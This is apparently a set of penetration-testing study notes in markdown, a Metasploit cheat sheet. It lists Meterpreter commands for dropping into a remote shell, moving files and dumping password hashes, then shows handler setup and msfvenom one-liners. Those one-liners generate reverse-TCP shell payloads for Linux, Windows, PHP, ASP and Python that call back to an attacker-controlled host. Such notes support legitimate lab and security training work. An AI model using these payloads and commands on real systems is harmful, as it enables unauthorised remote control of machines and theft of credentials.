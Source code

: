 ## Vulnerability Scanning
- Use the scanner to find modules related to the potential vulnerabilities.
- Use `info` command to view details about the module.

## Useful Meterpreter commands
- `help` - View all the commands supported in meterpreter.
- `pwd` - Print working directory.
- `ls` - List the files in directory.
- `shell` - Drop into the shell of the remote system.
- `download` - Download a file from the remote system.
- `upload` - Upload a file from the attacker machine to remote machine.
- `sysinfo` - Prints the system information.
- `search -f <file_name>` - Finds a file in the target system.
- `hashdump` - Gets the password hash for the users in the target system.

## Msfvenom
- Show list of supported payloads using `msfvenom -l payloads`.
- Show list of supported output formats `msfvenom --list formats`.
- To encode a payload using `-e`. Encoding is not an effective way to bypass antivirus programs.

### Handlers
- `use exploit/multi/handler` initiates the handler.
- `set payload <payload_type>` - To set the payload type.
- `set lhost <attacker_host_ip>` - To set the local host.
- `set lport <attacker_port_number>` - To set the port for communication.
- `run` or `exploit` to start listening.

### Payload Generation

#### Linux
```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
#### Windows
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

#### PHP
```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```
- Remove the leading comment and add `?>` at the end of the generated payload file.

#### ASP
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

#### Python
```shell
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

## Escalate Previleges by Upgrading Shells
- Read here: https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html